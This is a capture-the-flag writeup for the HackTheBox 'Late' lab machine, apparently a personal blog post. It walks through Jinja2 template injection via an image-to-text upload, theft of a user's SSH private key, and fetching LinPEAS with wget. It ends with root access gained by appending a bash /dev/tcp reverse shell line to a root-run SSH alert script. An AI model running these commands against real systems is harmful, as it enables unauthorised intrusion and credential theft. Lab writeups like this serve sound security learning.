 ```yaml
---
layout: post
title: HackTheBox - Late
category: HackTheBox
tags: machines flask linux web
date: 2022-07-06 11:15 +0300
---
```


![Machine info card](/assets/hackthebox/late/Late.png){:height="414px" width="615px"}

# Table of contents

- [Configuration](#configuration)
- [Reconnaissance](#reconnaissance)
  * [nmap scan](#nmap-scan)
  * [Web application](#web-application)
- [user.txt](#usertxt)
  * [Enumeration](#enumeration)
  * [Exploit](#exploit)
- [root.txt](#roottxt)
  * [Explore for privilige escalation](#explore-for-privilige-escalation)
  * [Privilege escalation](#privilege-escalation)
- [Conclusion](#conclusion)

# Configuration

If you're using your own machine like me, you have to access HTB network via `OpenVPN`:

```zsh
sudo openvpn lab_access_file.ovpn
```

It is very useful to append `/etc/hosts/` with ip address of the machine. It is useful to get subdomains and to not memorize the address every time.

```zsh
echo '10.10.11.156  late.htb' | sudo tee -a /etc/hosts
```

# Reconnaissance

## nmap scan

```zsh
nmap -sCV -oN nmap_scan late.htb
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
|_  256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We see basic `ssh` and `http` here, let's explore the web application.

## Web application

![Web application](/assets/hackthebox/late/webapp.png)

In web apps, we can use `whatweb` tool to look which technologies are used in app.
```zsh
whatweb late.htb
```

```
http://late.htb [200 OK] Bootstrap[3.0.0], Country[RESERVED][ZZ], Email[#,support@late.htb], Google-API[ajax/libs/jquery/1.10.2/jquery.min.js], HTML5, HTTPServer[Ubuntu Linux][nginx/1.14.0 (Ubuntu)], IP[10.10.11.156], JQuery[1.10.2], Meta-Author[Sergey Pozhilov (GetTemplate.com)], Script, Title[Late - Best online image tools], nginx[1.14.0]
```

We have a basic home page and a contact page with nothing interesting. Also, on home page we have a link to `images.late.htb`, lets modify our `/etc/hosts` with that address to look at it:

> 10.10.11.156  late.htb images.late.htb

Now we navigate to images.late.htb:

![Web application subdomain](/assets/hackthebox/late/subdomain.png)

It is an image to text converter, we can see an `upload form` here, let's check how it works. It allows only `png` or `jpg` file formats. Generate some text converted into image, I used [this site](https://www.345tool.com/converter/text-to-image-converter) here. Then, upload the image and it will return result in a txt file.

![Flask app results](/assets/hackthebox/late/flask_app_results.png)

# user.txt

## Enumeration

Note that it is a `Flask` application, it means `Python` is used here. I've found that Flask uses `Jinja2`, which allows us to try python code injections. Let's try basic injection by putting `{% raw %}{{7*'7'}}{% endraw %}` into image.

![Code injection](/assets/hackthebox/late/code_injection.png)

It works! Now we have to test and prepare our payload... 

## Exploit

After 2 hours I found right font and font size, I think it's not worth for time I spent, seriously... Use Verdana font with size 24, it worked for me. At first, we try to read `/etc/passwd`.

![etc passwd](/assets/hackthebox/late/etc_passwd.png)

We can see an interesting line here:

```
svc_acc:x:1000:1000:Service Account:/home/svc_acc:/bin/bash
```

Some user has a home directory and can log in. We can try to find `ssh` private key.

![We got a private key](/assets/hackthebox/late/private_key.png)

We're lucky! Now we copy key to file and log in! Don't forget to change file permissions.

```zsh
chmod 600 id_rsa
ssh -i id_rsa svc_acc@late.htb
cat user.txt
```

# root.txt

## Explore for privilige escalation

Let's upload [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) and try to get possible privilege escalation vectors. On our machine we use `Python` to start a simple web server.

```zsh
python -m http.server 8000
```

On victim machine we use `wget` to download the script. Then, we change permissions to a file to make it executable and run it.

```bash
wget http://10.10.16.14:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![Possible privesc vector](/assets/hackthebox/late/priv_esc_vector.png)

LinPEAS has found an interesting file for us, let's read it and understand what it does.

```bash
cat /usr/local/sbin/ssh-alert.sh
```

```
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

We can see that the script runs every time when a ssh connection is established. The file is not writtable, but if we list attributes of it, we will see that we can `append` to the file.

```bash
lsattr ssh-alert.sh
```

```
-----a--------e--- ssh-alert.sh
```

We have to check who runs the script. When we just connected via ssh, we listed the home directory and saw an executable called `pspy`, this is a tool for `monitor` processes without root privileges. Execute the tool and open another terminal, then connect again via ssh, you will see the events.

![Monitor processes](/assets/hackthebox/late/monitor_processes.png)

We can see that ssh-alert.sh runs with `UID 0`, which means that file executes by root, luckly for us! 

## Privilege escalation

Now we know that the file is executed by root, so we can do a lot of things, for example, get a reverse shell. Let's append a simple bash reverse shell from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp). Note that we can't directly write in the file. Then we check if everything is good.

```bash
echo '/bin/bash -i >& /dev/tcp/10.10.16.14/6185 0>&1' >> /usr/local/sbin/ssh-alert.sh 
cat /usr/local/ssh-alert.sh
```

Open an another terminal to set up a listener:

```zsh
nc -lnvp 6185
```

Finally, connect via ssh to trigger the script.

```zsh
ssh -i id_rsa svc_acc@late.htb
```

Then, on our listener terminal we will get the connection from `root`! We got it!

![We got a root](/assets/hackthebox/late/root.png)

# Conclusion

It was a very interesting box, but searching for a font and a font size was terrible, really. It was cool to learn about Flask and pspy.

Thank you for reading, I hope it was useful for you ❤️
